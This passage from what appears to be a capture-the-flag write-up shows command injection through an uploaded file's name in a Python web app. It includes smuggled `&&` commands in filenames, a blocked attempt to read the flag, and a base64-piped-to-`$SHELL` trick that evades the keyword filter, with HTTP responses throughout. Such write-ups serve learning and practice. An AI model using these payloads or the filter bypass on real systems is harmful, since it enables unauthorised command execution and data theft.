 ```bash
❯ file -b bio.png
PNG image data, 500 x 500, 8-bit/color RGB, non-interlaced
           
❯ file -b api.py 
Python script, ASCII text executable

❯ file -b bio.png&&id
PNG image data, 500 x 500, 8-bit/color RGB, non-interlaced
uid=1000(incognito99) gid=1000(incognito99) groups=1000(incognito99),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),120(lpadmin),132(lxd),133(sambashare),142(libvirt),998(docker)
```
Once we send the image, the response indicate the webapp run as `user`. Normally we will get `www-data` as user id but luckily the webapp is set to `user` so we dont have to escalate to `user` privilege.

```http
HTTP/1.1 200 OK
Server: Werkzeug/2.2.2 Python/3.8.10
Date: Thu, 29 Dec 2022 14:40:07 GMT
Content-Type: application/json
Content-Length: 111
Vary: Cookie
Connection: close

{"message":"Invalid file extension: ASCII text\nuid=1001(user) gid=1001(user) groups=1001(user)","status":500}
```
Then I just read the flag by making the filename `test.png&&cat /home/user/user.txt` and I got blocked.

```http
HTTP/1.1 200 OK
Server: Werkzeug/2.2.2 Python/3.8.10
Date: Thu, 29 Dec 2022 14:45:13 GMT
Content-Type: application/json
Content-Length: 72
Vary: Cookie
Connection: close

{"address":"10.4.11.97","message":"You have been blocked","status":500}
```
Maybe the request have been blocked by WAF or they have blacklists word for filename. I cant even use `bash` or `sh` command, so we need some tricks to bypass the filter. In order to bypass this, I pipe decoded base64 to `$SHELL`(environment variable) to execute the code.

```bash
❯ echo $SHELL       
/usr/bin/zsh

❯ echo "ls" | $SHELL
1.py  2.py  bio.png  test.txt

❯ echo "ls" | base64 -w 0
bHMK

❯ echo bHMK | base64 -d | $SHELL
1.py  2.py  bio.png  test.txt

❯ echo "cat /home/user/user.txt" | base64
Y2F0IC9ob21lL3VzZXIvdXNlci50eHQK
```
Now we can read the flag by simply set the filename as `test.png&&echo Y2F0IC9ob21lL3VzZXIvdXNlci50eHQK | base64 -d | $SHELL` and we are good to go.
